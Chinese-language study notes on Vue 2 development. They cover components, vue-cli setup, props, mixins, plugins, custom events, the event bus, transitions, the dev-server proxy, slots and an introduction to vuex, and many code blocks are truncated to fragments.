VueComponent的实例对象，以后简称vc，也可以称为组件实例对象；Vue的实例对象，以后简称vmvm实例上有$children属性，值是每个vc实例
2.2.7.Vue实例与组件实例
注意区分VUe实例和组件实例的区别（之前讲过）
组件是可复用的实例
因为组件是可复用的实例，所以它们与new Vue()接收相同的选项，例如data、computed、watch、methods以及生命周期钩子等，仅有的例外是像el这样根实例特有的选项
组件配置项中的data必须是一个函数，因此每个实例可以维护一份被返回对象的独立拷贝
2.2.8.一个重要的内置关系
VueComponent.prototype.__proto__ === Vue.prototype
为什么要有这个关系：让组件实例对象（vc）可以访问到Vue原型上的属性、方法

1 | const d = function Demo() |
Demo.prototype === d.__proto__
- 显示原型属性：
Demo.prototype - 隐式原型属性：
d.__proto__
2.3.单文件组件
*.vue就是一个单文件组件，但浏览器肯定不能直接运行的
借助：webpack或vue-cli（搭建好的webpack的环境）
一般命名采取大写
School.vue
组件：实现局部（特定）功能效果的代码集合
为了符合上述描述，一个.vue文件应该包含html/css/js，分别对应template/style/script
1 | <template> |
1 | <template> |
注意：script的js部分要用模块化的写法，一般来说采取默认暴露的写法，引入的时候比较方便
1 | <script> |
简写变量：
1 | <script> |
省略extend方法
1 | <script> |
完整写法：
School.vue
1 | <template> |
创建Student和App组件
在App组件中引入组件
App.vue
1 | <template> |
所有的组件都是受vm管理的，此时我们应该怎么创建vm呢？
可以新建一个main.js入口文件
main.js
1 | import App from './App' |
还有一个问题，现在没有容器，我们还需要创建index.html
index.html
1 |
|
整体形式如上，但不能在浏览器上运行
在脚手架环境中可以直接运行
3.使用Vue脚手架
3.1.说明
Vue脚手架时Vue官方提供的标准化开发工具：介绍 | Vue CLI (vuejs.org)- 脚手架开发工具的版本，一般选择最新的即可，是向下兼容的
- 不要选择新的技术版本，却选择了旧的开发工具版本
3.2.具体步骤
如何创建Vue项目
- 安装
nodejs - 创建新目录并进入，习惯性的
npm init -y一下，创建一个空的package.json- 安装
vue-cli：npm i @vue/cli 20220511默认安装的脚手架版本为5.0.4- 这个默认是安装在本地的，调用指令时需要使用
npx前缀，如果是全局安装的则不需要
- 安装
- 创建
vue项目：npx vue create project-name或vue create project-name- 然后选择是
vue2还是vue3的项目 - 根据提示启动项目：
npm run serve
- 然后选择是
- 备注：
- 如果出现下载慢，可以配置淘宝镜像：
npm config set registry https://registry.npm.taobao.org- 现在已经重定向到
https://registry.npmmirror.com/了
- 现在已经重定向到
Vue脚手架隐藏了所有webpack相关的配置，若想查看具体的webpack配置，可以执行：vue inspect > output.js
- 如果出现下载慢，可以配置淘宝镜像：
3.3.脚手架目录结构

主要目录：src

入口文件：main.js
1 | import Vue from 'vue' // 引入Vue |
assets一般放静态资源
那么依赖的那个html文件在那儿呢？在public目录下

index.html
BASE_URL：正式打包到服务器后，BASE_URL指向的是public所在的路径title：引用了webpack插件里的配置作为标题noscript：浏览器不支持js时，将会提示- 容器：
<div id="app"></div>
1 |
|
3.4.render函数
我们把render函数那部分注释掉，会提示我们用的vue是运行版本，这个版本是没有模板解析器的，所以要用render函数来解析模板。而之前本地引用的vue.js是有模板解析器的
我们在入口文件引入的vue是残缺的：import Vue from 'vue'
- 将模板交给
render - 引入完整版本的
vue
我们在引入第三方库的时候，只写了名字，现在要找到具体位置，确认引入的究竟是哪一个js文件
import Vue from 'vue'实际上只引入node_modules/vue/这个文件夹：

我们看一下package.json：
1 | "main": "dist/vue.runtime.common.js", |
其中的module字段表示，如果通过es6模块化的语法引入，则实际引入的文件是dist/vue.runtime.esm.js，可以在该文件中新增打印语句确认一下：

这个vue就是残缺版的vue，少了模板解析器，则template配置项就没人解析了
我们可以试试第二种方式，引入import Vue from 'vue/dist/vue'，模板正常解析，页面出来了
但是，为什么要引入残缺版的vue呢？
我们先改写一下render配置项：
1 | new Vue({ |
简写：
1 | new Vue({ |
组件写法：
1 | new Vue({ |
回到刚刚的问题，为啥要引入没有模板解析器的残缺版的vue呢？
因为模板解析器的代码体积，占据了整个vue的2/3的体积
并且打包后的文件会包含模板解析器，此时是不需要的
还有个细节的问题：
render函数解析的是template配置项里的模板.vue文件里的template并不是render函数解析的- 用的
vue-template-compiler这个loader解析的
- 用的
- 如果就像在浏览器上，运行残缺版的
vue，可以引入vue.runtime.js
小结：
关于不同版本的vue
vue.js与vue.runtime.xxx.js的区别vue.js是完整版的Vue，包含核心功能和模板解析器vue.runtime.xxx.js是运行版的Vue，只包含：核心功能，没有模板解析器
- 因为
vue.runtime.xxx.js没有模板解析器，所以不能使用template配置项，需要使用render函数，接收到createElement函数去指定具体内容
3.5.修改默认配置
Vue脚手架隐藏了所有webpack相关的配置，若想查看具体的webpack配置，可以执行：vue inspect > output.js
如果要修改默认配置，需要借助vue.config.js配置文件
vue.config.js 是一个可选的配置文件，如果项目的 (和 package.json 同级的) 根目录中存在这个文件，那么它会被 @vue/cli-service 自动加载。你也可以使用 package.json 中的 vue 字段，但是注意这种写法需要你严格遵照 JSON 的格式来写。
这个文件应该导出一个包含了选项的对象：
1 | // vue.config.js |
或者，你也可以使用 @vue/cli-service 提供的 defineConfig 帮手函数，以获得更好的类型提示：
1 | // vue.config.js |
有一定webpack基础再看官网的这些配置项说明，是没啥问题的
修改入口文件：
pages1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23module.exports = {
pages: {
index: {
// page 的入口
entry: 'src/index/main.js',
// 模板来源
template: 'public/index.html',
// 在 dist/index.html 的输出
filename: 'index.html',
// 当使用 title 选项时，
// template 中的 title 标签需要是 <title><%= htmlWebpackPlugin.options.title %></title>
title: 'Index Page',
// 在这个页面中包含的块，默认情况下会包含
// 提取出来的通用 chunk 和 vendor chunk。
chunks: ['chunk-vendors', 'chunk-common', 'index']
},
// 当使用只有入口的字符串格式时，
// 模板会被推导为 `public/subpage.html`
// 并且如果找不到的话，就回退到 `public/index.html`。
// 输出文件名会被推导为 `subpage.html`。
subpage: 'src/subpage/main.js'
}
}关闭语法检查：
lintOnSave1
2
3
4// vue.config.js
module.exports = {
lintOnSave: false
}
3.6.ref属性
在vue中如果想要获取dom，使用ref属性
1 | <div ref="title"> |
组件实例上，有一个$refs属性，收集了含有ref属性的结构
使用：
1 | console.log(this.$refs.title) |
如果给组件标签添加了ref属性，取到的则是组件的实例对象，可以用作组件间的通信
1 | <School ref="school"></School> |
而如果是给的id，取到的则是渲染后的dom结构
1 | <School id="school"></School> |
小结：ref属性
- 被用来给元素或子组件注册引用信息（替代
id） - 应用在
html标签上，获取的是真实dom，应用在组件标签上获取的是组件实例对象（vc） - 使用方式
- 打标识：
<h1 ref="xxx">...</h1>或<School ref="xxx"></School> - 获取：
this.$refs.xxx
- 打标识：
3.7.props配置
props：给子组件传递数据
写法：
使用组件标签的同时，自定义属性：
<School name="sai"></School>- 相当于往组件上传值
组件内容要有一个配置项，接收传过来的值（数组写法）
1
2
3props: [
'name'
]子组件中定义
data，并接收props传值：1
2
3
4
5
6
7
8props: [
'name'
],
data() {
return {
age: 18
}
}最终组件实例对象上，
name和age属性是都有的，说明通过props的确拿到了传入的值并挂载在了组件实例对象上但组件实例的
_data上只有age属性
传值的类型
- 传字符串：
<School name="sai"></School> - 传表达式的结果：
<School :age="18+1"></School>- 最终传的值是
19
- 最终传的值是
- 传字符串：
props使用对象写法，对类型进行限制1
2
3
4props: {
name: String,
age: Number
}props限制必须传值、设置默认值，一般这两个配置项不会同时出现1
2
3
4
5
6
7
8
9
10props: {
name: {
type: String,
required: true, // 限制为必须传值
},
age: {
type: Number,
default: 18
},
}注意点
不要传递类似
key等关键字使用
props声明时，不要多声明，传啥就声明啥props从外部接收到的值，是不允许修改的，如果直接修改会报错
最终
props和data中的配置项，都会被挂载在组件实例对象上props的优先级比data高，可以在data中定义新的变量，值为props的先接收到变量模板使用
data中的数据，如果需要修改数据，修改data配置项的数据，是没有问题的1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33<template>
<div>
<h2>{{name}} - {{myAge}}</h2>
<button @click="modifyAge">click</button>
</div>
</template>
<script>
export default {
name: 'School',
data() {
return {
myAge: this.age
}
},
props: {
name: String,
age: Number
},
mounted() {
console.log(this)
},
methods: {
modifyAge() {
this.myAge++ //修改data的配置项
}
}
}
</script>
<style>
</style>
小结：
功能：让组件接收外部传递进来的数据
传递数据：
<Demo name="xxx"/>接收数据：
第一种方式（只接收）：
props: ['name']第二种方式（限制类型）：
1
2
3props: {
name: Number
}第三种方式（限制类型、限制必要性、指定默认值）
1
2
3
4
5
6
7props: {
name: {
type: String, // 类型
required: true, // 必要性
default: 'sai' // 默认值
}
}
备注：
props是只读的，Vue底层会监视你对props的修改，如果进行了修改，就会发出警告，若业务需求确实需要修改，那么请复制props的内容到data中一份，然后去修改data中的数据父传子，可以传
data和methoddatamethod，子组件调用传过来方法时，如果传入了参数，父组件也是可以收到的
3.8.mixin配置
3.8.1.mixin基本使用
两个组件共享一个配置时，可以放在mixin.js中
1 | export const mixin1 = { |
借助mixins配置项，可以在多个组件中使用
1 | <template> |
3.8.2.定义多个混合
定义多个混合
1 | export const mixin1 = { |
使用多个混合
1 | <template> |
组件中的data多了mixin中定义的数据

如果mixin中和组件的data中，含有相同的数据变量，以组件的优先，methods配置项也是
但是，生命周期钩子，不以任何人为主，都会执行
1 | export const mixin1 = { |
1 | <template> |

3.8.3.全局混入
利用Vue.mixin(options)方法，在main.js中引入，作为全局混入，使用时所有的组件中都可以使用
1 | import Vue from 'vue' |
备注：如果main.js用createApp方法替代new Vue的操作了，上面的写法会提示Vue不存在，写法如下：
1 |
全局混入后，vm根实例和所有的组件实例对象，都有mixin中配置的data配置项或其他配置项

3.8.4.小结：mixin
mixin混入
功能：可以把多个组件共有的配置提取成一个混入对象
使用方式
第一步，定义混合
1
2
3
4
5{
data() {},
methods: {},
......
}第二步，使用混合
局部混入：
1
2
3
4
5import {xxx} from './mixin'
...
// 配置项
mixins: [xxx]全局混入：
1
2
3
4import Vue from 'vue'
import {xxx} from './mixin'
Vue.mixin(xxx)
3.9.插件
插件本质是一个对象，但是这个对象要包含install方法
新建plugins.js定义并暴露该对象
1 | export default { |
main.js中引入插件，并使用Vue提供的use方法，使用定义好的插件
1 | import plugins from './plugins' |
那有啥用咧
install方法被调用时，可以接受一个参数，这个参数是vm的构造函数Vue
1 | export default { |

结合我们之前讲过的Vue身上的方法，能做很多事情
1 | export default { |
小结：插件
功能：用于增强
Vue本质：包含一个
install方法的对象install方法的第一个参数是Vue，第二个及以后的参数是插件使用者传递的数据
定义插件：
1
2
3
4
5
6
7
8
9exports default = {
install(Vue, options) {
Vue.filter(...) // 定义全局过滤器
Vue.directive(...) // 定义全局自定义指令
Vue.mixin(...) // 定义全局混入
Vue.prototype.$myMethod = function(){...} // 添加实例方法和属性，`vm`和`vc`就都可以使用
Vue.prototype.$myProperty = xxx
}
}使用插件
1
2import plugins from './plugins'
Vue.use(plugins) // 使用者可以添加参数
3.10.scoped样式
如果style标签中，没有scoped属性，最终所有的样式会汇总到一起，容易出现类名冲突，后引入的组件中的样式会覆盖先引入的样式。
可以给style添加使用scoped属性，解决样式冲突的问题
原理：有了
scoped属性后，vue会给匹配到类名的dom节点添加自定义属性：data-v-xxx，然后使用css的属性标签选择器来匹配样式1
2
3
4
5
6.demo[data-v-123] {
background-color: 'blue'
}
.demo[data-v-456] {
background-color: 'yellow'
}App组件一般不加也可以使用
css预编译语言来编写样式，但是要先安装less-loader1
2
3<style lang="less">
</style>问题：可能会出现版本不兼容的问题
- 此时自己下载的
vue-cli，用到webpack的版本为5版本（node_modules文件夹找webapck文件夹，查看package.json文件），这个时候装less-loader是没有问题的，因为默认安装的是最新版的less-loader，新版本是为了迎合webpakc5 - 如果
vue-cli用的webpack为4版本，则要less-loader版本降级以兼容webpack4- 查看所有版本：
npm view less-loader versions - 试一下不那么新的版本：
npm i less-loader@7.0.0 -D8及以上的版本就是为webpack4服务的了
- 查看所有版本：
- 此时自己下载的
小结：scoped样式
- 作用：让样式在局部生效，防止冲突
- 写法：
<style scoped>
3.11.组件化编码流程
实现静态组件：抽取组件，使用组件实现静态效果
- 一般需要自己写静态页面
- 也有可能，静态页面别人已经写好了，然后拿过来自己拆成组件
- 一般组件名，最好是多个单词
展示动态数据
确定数据保存在哪个组件
数据的类型、名称是什么
交互
组件之间的数据传递前的预定义
- 父传子，可以传
data和methoddatamethod，子组件调用传过来方法时，如果传入了参数，父组件也是可以收到的
- 父传子，可以传
绑定事件监听，并进行业务交互逻辑编写，并对异常情况进行处理
3.11.1ToDOList案例
3.11.1.1.编写静态组件
App.vue
1 | <template> |
MyHeader.vue
1 | <template> |
MyList.vue
1 | <template> |
MyItem.vue
1 | <template> |
MyFooter.vue
1 | <template> |
3.11.1.2.初始化列表
实际开发中，会封装ajax请求调用获取数据的接口，然后展示
MyList.vue
1 | <template> |
MyItem.vue
1 | <template> |

3.11.1.3.添加功能
该功能涉及到父组件给子组件传值，传递method
添加输入数据后，渲染时要生成唯一标识，可以使用uuid或nanoid库
npm i nanoid -D
MyHeader.vue
1 | <template> |
现在要将MyHeader组件的数据传递给MyList组件，目前我们还没学到组件间通信
所以目前我们先把数据都放在App组件，然后通过props配置项传给MyList组件
并且，APP组件要获取到Header组件中输入的数据，可以先在App组件中，定义一个函数，通过props传递函数给Header，Header组件在调用函数并传参时，App组件也可以获取到这个参数
App.vue
1 | <template> |
3.11.1.4.勾选功能
该功能涉及到爷爷组件传值（父组件给儿子的儿子组件传值）
注意MyItem组件中，:checked是绑定的props的值，取消勾选需要修改props的值，但vue不建议修改，所以input不能写成v-model的形式
input输入框通过change事件，绑定List组件通过props传的函数，而该函数又是App组件通过props传递过来的
App.vue
1 | <template> |
MyList.vue
1 | <template> |
MyItem.vue
1 | <template> |
3.11.1.5.删除功能
由于选择器优先级的问题，要将App组件中写在#root中的.btn、.btn-danger样式抽离到同一层级
App.vue
1 | <template> |
MyList.vue
1 | <template> |
MyItem.vue
1 | <template> |
3.11.1.6.底部统计功能
数组过滤方法：reduce，https://www.jianshu.com/p/ce508fade509
MyFooter
1 | <template> |
3.11.1.7.底部交互功能
App.vue
1 | <template> |
MyFooter.vue
1 | <script> |
3.11.2.小结：ToDoList案例
组件化编码流程
- 拆分静态组件：组件要按功能点拆分，命名不要和
html冲突 - 实现动态组件：考虑好数据存放位置，数据是一个组件在用，还是一些组件在用
- 一个组件在用：放在组件自身即可
- 一些组件在用：放在他们共同的父组件上（状态提升）
- 交互实现：从绑定事件开始
- 拆分静态组件：组件要按功能点拆分，命名不要和
props适用于：- 父组件 ==> 子组件通信
- 子组件 ==> 父组件通信（要求父组件先给子组件一个函数）
使用
v-model时要切记：v-model绑定的值不能是props传过来的值，因为props是不可以修改的props传过来的若是对象类型的值，修改对象中的属性时Vue不会报错，但不推荐这样做
3.11.3.浏览器本地存储
webStorage包含localStorage和sessionStorage，这两个的api是一样的，存储内容大小一般在5MB左右，浏览器端一般通过Window.sessionStorage和Window.localStorage来实现本地存储机制
相关api：
1 | // 新增数据 |
备注：
sessionStorage存储的内容会随着浏览器的窗口关闭而消失localStorage存储的内容，需要手动清除才会消失xxx.getItem(xxx)，如果获取不到，返回值为nullJSON.parse(null)的结果依然是null
3.12.组件自定义事件
3.12.1.组件自定义事件的基本使用
之前我们通过props配置项，可以实现子组件给父组件传递数据，这种方式需要父组件先定义方法，子组件再定义props接受，然后再使用该方法
也可以通过v-on给组件绑定自定义事件：
子组件使用
v-on绑定myMethod自定义事件，该事件的回调是demoApp.vue1
<Student v-on:myMethod="demo"/>
父组件中定义
demo回调函数，子组件中定义myMethod自定义事件App.vue1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19<template>
<div id="root">
<MyStudent @myMethod="demo"></MyStudent>
</div>
</template>
<script>
import MyStudent from "@/components/MyStudent";
export default {
name: 'App',
components: {
MyStudent
},
methods: {
demo(value) {
console.log(value)
}
}
}
</script>MyStudent子组件中通过组件实例对象上的
$emit向外传递自定义事件，同时也可以传递参数父组件在接受定义回调时，可以定义参数接受子组件的传值
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21<template>
<div>
<button @click="myClick">点击传值</button>
</div>
</template>
<script>
export default {
name: "MyStudent",
data() {
return {
name: '子组件的数据'
}
},
methods: {
myClick() {
this.$emit('myMethod', this.name)
}
}
}
</script>
另外一种写法：
在App.vue中的mounted生命周期函数中，使用组件实例对象的$on方法调用：
1 | <template> |
该方式灵活性更强，比如可以设置延时
如果想要自定义事件只触发一次，可以使用$once方法:
1 | this.$refs.student.$once('myMethod', this.demo) |
或
1 | <Student @myMethod.once="demo"/> |
如果子组件自定义事件传递了很多参数，而我们只需要特定的参数，可以使用解构赋值来接受参数
1 | myClick() { |
父组件的回调函数：
1 | demo(value, ...params) { |
3.12.2.解绑自定义事件
解绑一个自定义事件
1
this.$off('myMethod')
解绑多个自定义事件
1
this.$off(['myMethod','myMethod2'])
或
1
this.$off() // 什么都不传，表示解绑全部的自定义事件
销毁了当前组件实例之后，其身上定义的所有自定义事件都失效了
3.12.3.小结：组件自定义事件
一种组件间通信的方式，适用于子组件 ==> 父组件
使用场景：
A是父组件，B是子组件，B想给A传数据，那么就要在A中给B绑定自定义事件（事件的回调函数在A中）绑定自定义事件
第一种方式：在父组件中：
<Demo @myMethod="demo"/>或<Demo v-on:myMethod="demo">第二种方式，在父组件中：
1
2
3
4
5
6
7<Demo ref="xxx"/>
...
mounted() {
this.$refs.xxx.$on('myMethod', this.demo)
}若想让自定义事件只能触发一次，可以使用
once修饰符，或$once方法
触发自定义事件：
this.$emit('myMethod', data)解绑自定义事件：
this.$off('myMethod')组件上也可以绑定原生
dom事件，但要使用native修饰符，否则会当作自定义事件处理注意：通过
this.$refs.xxx.$on('myMethod', 回调)绑定自定义事件时，回调要么配置在methods中，要么就用箭头函数，如果不用箭头函数，此时函数中的this指向默认指向子组件，对于数据的操作会出问题可以使用自定义事件改写
toDoList案例- 父给子传数据，不用修改
- 父给子传函数，最终的目标是希望拿到子组件的数据，可以使用子组件的自定义事件来修改
3.13.全局事件总线
作用：实现任意组件通信
要求：
- 所有的组件都能看到它
- 事件总线上得有
$on、$off和$emit方法
小结：
全局事件总线，是一种组件间通信的方式，适用于任意组件间通信
安装全局事件总线
1
2
3
4
5
6
7new Vue({
...
beforeCreate() {
Vue.prototype.$bus = this // 安装全局事件总线，$bus就是当前应用的`vm`
}
...
})使用事件总线
接收数据：
A组件想接收数据，则在A组件中给$bus绑定自定义事件，事件的回调留在A组件自身A组件1
2
3
4
5
6
7
8
9methods: {
demo(data) {
// 事件的回调
}
},
...
mounted() {
this.$bus.$on('xxx', this.demo)
}合适的时机，提供数据：
this.$bus.$emit('xxx', data)
最好在
beforeDestroy钩子中，用$off去解绑当前组件所用到的事件A组件1
2
3
4
5
6
7
8...
mounted() {
this.$bus.$on(xxx, this.demo)
}
// 销毁前解绑用到的自定义事件
beforeDestroy() {
this.$bus.$off('xxx')
}使用全局事件总线，改写
toDoList案例
3.14.消息订阅与发布
消息订阅与发布
- 订阅消息：消息名
- 发布消息：消息内容
下载安装：npm i pubsub-js -D
在A组件中订阅消息
1 | <template> |
在B组件中发布消息
1 | <template> |
小结：消息订阅与发布
一种组件间通信的方式
使用步骤
安装
pubsub：npm i pubsub-js -D引入：
import pubsub from 'pubsub-js'接收数据：
A组件想接收数据，则在A组件中订阅消息，订阅的回调留在A组件本身1
2
3
4
5
6
7
8
9methods: {
demo(mesName, data) {
// 默认是有两个参数，一个是消息名称，一个是消息内容
}
}
mounted() {
// 需要在组件实例上，添加pid属性，销毁该条消息的时候要用到
this.pid = pubsub.subscribe('xxx', this.demo)
}提供数据：
pubsub.publish('xxx', data)- 最好在
beforeDestroy钩子中，使用pubsub.unsubscribe(pid)取消订阅
- 最好在
消息订阅模式，在
Vue中用的不多，因为其原理和事件总线类似可以使用消息订阅模式，改写
toDoList案例的删除功能新增
toDoList编辑功能
this.$nextTick，可以指定一个回调，在下一次dom节点更新之后再执行
什么时候用：当数据改变后，要基于更新后的新dom进行某些操作时，要在$nextTick所指定的回调函数中执行
1 | this.$nextTick(function () { |
3.15.动画与过渡
3.15.1.动画效果
原生实现动画效果：
1 | <template> |
后续逻辑是不断的切换come和go的类名
Vue就封装了上述的操作
- 使用
transistion包裹想要发生动画的元素- 这样
Vue就会在合适的时候，加上固定的动画（类名）
- 这样
v-enter-active- 进入的整个过程，添加的样式类名
v-leave-active- 离开的整个过程，添加的样式类名
Vue不和动画进行对话，只和样式的类名进行对话- 注意：
transition只针对被v-show或v-if控制的元素
1 | <template> |
每个过渡还可以命名，命名后样式的类名要对应上
1
2
3<transition name="hello">
<h2 v-show="isShow" class="go">你好呀</h2>
</transition>1
2
3
4
5
6.hello-enter-active {
animation: come 1s linear;
}
.hello-leave-active {
animation: come 1s linear reverse;
}如果希望一开始就播放动画，给
transition添加一个appear属性，有两种写法1
2
3<transition name="hello" :appear="true">
<h2 v-show="isShow" class="go">你好呀</h2>
</transition>或者是简写形式
1
2
3<transition name="hello" appear>
<h2 v-show="isShow" class="go">你好呀</h2>
</transition>值得注意的是，
transition并不会渲染成真实dom
3.15.2.过渡效果
元素出现的过程中，Vue除了添加v-enter-active，还添加了v-enter和v-enter-to这两个类名
v-enter：进入的起点v-enter-to：进入的终点
相当于封装了原生的transition的写法
同理，元素离开的过程中，Vue还会添加v-leave和v-leave-to这两个类名，分别表示离开的起点、离开的终点
1 | <template> |
为了不破坏原来元素中，写的样式，我们将transition: 0.5s linear;抽出来
1 | <style scoped lang="less"> |
上面的写法就相当于写在了变化的元素身上
3.15.3.多个元素的过渡
使用<transition-group>标签包裹多个元素，同时要指定key，其他的不变
1 | <transition-group> |
key值可以借助v-for来指定或手动指定
3.15.4.第三方动画库
animate.css：Animate.css | A cross-browser library of CSS animations.
安装：npm i animate.css -D
组件或入口文件中引入：
1 | import 'animate.css' |
初始化配置：
1 | <transition name="animate__animated animate__bounce"> |
动画配置
1 | <transition |
即可实现动画效果
如果要控制时间，给被v-show控制的元素添加类名即可
1 | Class name Default speed time |
3.15.5.小结：Vue封装的过渡与动画
作用：在插入、更新或移除
dom时，在合适的时机给元素添加类名图示：

写法：
准备好样式：
- 元素进入的样式
v-enter：进入的起点v-enter-active：进入的整个过程v-enter-to：进入的终点
- 元素离开的样式
v-leave：离开的起点v-leave-active：离开的整个过程v-leave-to：离开的终点
- 元素进入的样式
使用
<transition>包裹要过渡的元素，并配置name属性1
2
3
4
5<transition>
<h1 v-show="isShow">
你好
</h1>
</transition>备注：若有多个元素需要过渡，则需要使用：
<transition-group>，且每个元素都要指定key使用
<transition>完善toDoList案例
4.Vue中的ajax
4.1.vue-cli中配置代理
使用ajax技术，发送请求可能会存在跨域问题
本机的浏览器是8080，直接向服务器5000请求数据是不行的，可以通过本机的服务器8080这个代理服务器发请求
服务器和服务器之间，发送请求是不存在跨域问题的，跨域问题只存在于浏览器端
那么怎么开启代理服务器呢？
通过
nginx配置代理服务器通过
vue-cli的配置项方式一：
vue.config.js新增配置项
devServer1
2
3devServer: {
proxy: "http://localhost:5000" //配置成最终要请求的服务器
}填写该配置项后，
vue-cli会生成一个8080的服务器，并且开发的public目录，对应着该服务器的资源目录，ajax的请求路径，要修改成代理服务的优点：
- 配置简单，请求资源直接发给前端即可
存在的问题：
- 不能配置多个代理服务器，不能灵活的控制请求是否走代理
- 如果请求路径和
public目录资源存在重复，则会返回代理服务的的资源，请求不会转发
方式二：
vue.config.js1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18devServer: {
proxy: {
'/api': { // 表示请求前缀，发送`ajax`请求时，在端口号后添加该前缀，表示要通过代理服务器进行转发，并且该前缀，会作为请求路径发送给目标服务器
target: '<url>', // 代理服务器的路径
pathRewrite: {
'^/api': '' // 对路径进行匹配替换，将前缀替换为空字符串，如果真实的服务器有这个路径头，就不需要重写
},
ws: true, // 用于支持websocket
changeOrigin: true // true配置项，会伪装代理服务的主机端口号，是localhost:5000。false配置项，代理服务器会如实告诉目标服务器自己的主机端口号，是localhost:8080
},
'/foo': {
target: '<other_url>',
pathRewrite: {
'^/foo': ''
}
}
}
}优点：
- 可以配置多个代理，且可以灵活的控制请求是否走代理
缺点：
- 配置略微繁琐，请求资源时必须加前缀
4.2.带有网络请求的案例
github搜索用户案例
4.3.Vue中常用的两个ajax库
4.3.1.axios
通用的ajax库，官方推荐，使用广泛
4.3.2.vue-resource
vue插件库，vue1.x广泛使用，官方已不维护
4.4.slot插槽
组件标签里面的标签体，也可以添加内容的
1 | <Demo> |
vue会对标签体内容进行解析，但是要确定解析后的存放位置
在子组件中，使用<slot>标签标识，告诉vue使用Demo组件时，其标签体内容放在slot对应的位置（挖个坑，等待组件的使用者来填）
传递slot的时机是，在组件使用者全部加载完之后，再替换slot
4.4.1.默认插槽
slot可以定义默认值，如果使用组件时没有添加标签体内容，页面渲染时会展示slot的默认内容
Demo.vue
1 | <template> |
4.4.2.具名插槽
理解：挖了坑之后，给每个坑取个名字，将来在使用的时候，确定哪个结构到哪个坑里
定义具名插槽
Demo.vue
1 | <template> |
使用插槽
App.vue
1 | <template> |
如果是多个标签内容，对应同一个插槽，外层可以使用一个div或template包裹
使用div进行包裹
1 | <template> |
使用template进行包裹时，可以使用v-slot:footer的写法
1 | <template> |
4.4.3.作用域插槽
默认操作和具名插槽，解决了结构传递的问题。
现在要解决数据传递的问题
Demo组件的使用者，在使用Demo组件时，可以将数据存放在本身
但现在将数据放在Demo组件中，如果使用者想要用到Demo组件中的数据，需要在定义插槽的时候，Demo组件往插槽上塞一份数据
Demo.vue
1 | <template> |
那么定义插槽时，数据塞给了谁呢？
塞给了插槽的使用者
App.vue
1 | <template> |
页面显示的结果，是一个对象：
1 | { |
使用者在用的时候，通过scope定义的变量名进行调用即可
可以通过对象的解构赋值来简化调用过程的书写
1 | <template> |
也可以写成slot-scope={games}，就是新旧api的问题
数据是定义在作用域插槽对应的组件中的，最终的结构是由组件的使用者决定的
4.4.4.小结：插槽
作用：让父组件可以向子组指定位置插入
html结构，也是一种组件间通信方式，适用于父组件==>子组件分类：默认插槽、具名插槽和作用域插槽
使用方式：
默认插槽：
1
2
3
4
5
6父组件中：
<Category>
<div>
html结构1
</div>
</Category>1
2
3
4
5
6
7子组件中：
<template>
<div>
<!-- 定义插槽 -->
<slot>插槽默认内容</slot>
</div>
</template>具名插槽：
1
2
3
4
5
6
7
8
9
10
11
12
13
14父组件中：
<Category>
<template slot="center">
<div>
html结构1
</div>
</template>
<template v-slot="footer">
<div>
html结构2
</div>
</template>
</Category>1
2
3
4
5
6
7
8子组件中：
<template>
<div>
<!-- 定义插槽 -->
<slot name="center">插槽默认内容</slot>
<slot name="footer">插槽默认内容</slot>
</div>
</template>作用域插槽
理解：数据在组件的自身，但根据数据生成的结构需要使用者来决定。（
games数据在Category中，但使用数据所遍历出来的结构由App组件决定）1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18父组件中：
<Category>
<template scope="scopeData">
<!-- 生成的是ul列表 -->
<ul>
<li v-for="g in scopeData" :key="g">{{g}}</li>
</ul>
</template>
</Category>
<Category>
<template scope="scopeData">
<!-- 生成的是h4标题 -->
<h4 v-for="g in scopeData" :key="g">
{{g}}
</h4>
</template>
</Category>1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16子组件中：
<template>
<div>
<slot :game="games"></slot>
</div>
</template>
<script>
export default {
// 数据在子组件自身
data() {
return {
games: ['aa', 'bb', 'cc']
}
}
}
</script>
5.vuex
5.1.理解vuex
5.1.1.vuex是什么
- 概念：专门在
Vue中实现集中式状态（数据）管理的一个Vue插件，对Vue应用中多个组价的共享状态进行集中的管理（读/写），也是一种组件间通信的方式，且适用于任意组件间通信。 github：https://github.com/vuejs/vuex- 官方现在推荐的是
pinia了：https://github.com/vuejs/pinia
5.1.2.什么时候使用vuex
- 多个组件依赖于同一状态
- 来自不同组件的行为需要变更同一状态
5.1.3.vuex原理图

5.1.4.搭建vuex环境及使用
vue2中，只能够用vuex的3版本vue3中，只能用vuex的4及以上版本
创建store
store/index.js
1 | import Vue from 'vue' |
main.js中引入
1 | import Vue from 'vue' |
此时，vm实例身上就有$store方法了

使用：
将需要共享的数据定义在
state1
2
3state: {
sum: 0
},在组件实例对象中，调用
dispatch方法1
this.$store.dispath('jia', this.n) // 传入action类型，并根据需要传入其他参数
在
actions中定义类型1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21actions: {
jia: function() {
console.log('store中的jia被调用了')
}
}
actiosn: {
//简写
jia(context, value) {
// 有两个默认参数
// 第一个参数，相当于是mini版的store对象，有commit、dispatch、getters和state等
// 如果业务逻辑很多的话，可以再次调用dispatch方法进行业务逻辑分发
// 为什么业务逻辑不写在自身呢？
// 实现代码复用
// 实际业务逻辑会有多个步骤流程，不可能用一次写一次逻辑，
// 比如说想要报销，只要传递一个发票号即可，剩下的一大堆验证逻辑，不需要自己管了
// 第二个参数，是传过来的值
// 虽然在这里，可以直接操作state的值，但是不推荐，因为vuex的开发者工具监测的是mutation
}
}自定义类型函数里，调用
commit方法1
2
3
4
5
6actiosn: {
//简写
jia(context, value) {
context.commit('JIA', value) // 同时也要定义mutation类型，一般大写，做个区分
}
}可以用对象的赋值解构写法
1
2
3
4
5
6
7
8actiosn: {
//简写
// 第一个参数，也可能是dispatch，看实际情况
// 第二个参数命名，一般写成payload，是dispatch时，自定义的任何类型的数据，
jia({commit}, payload) {
commit('JIA', payload) //不过payload一般根据实际情况，写成语义化的命名
}
}- 使用场景
- 可以在组件初始化时，分发
action调用axios发送请求获取数据
- 可以在组件初始化时，分发
- 使用场景
定义
mutation类型1
2
3
4
5
6
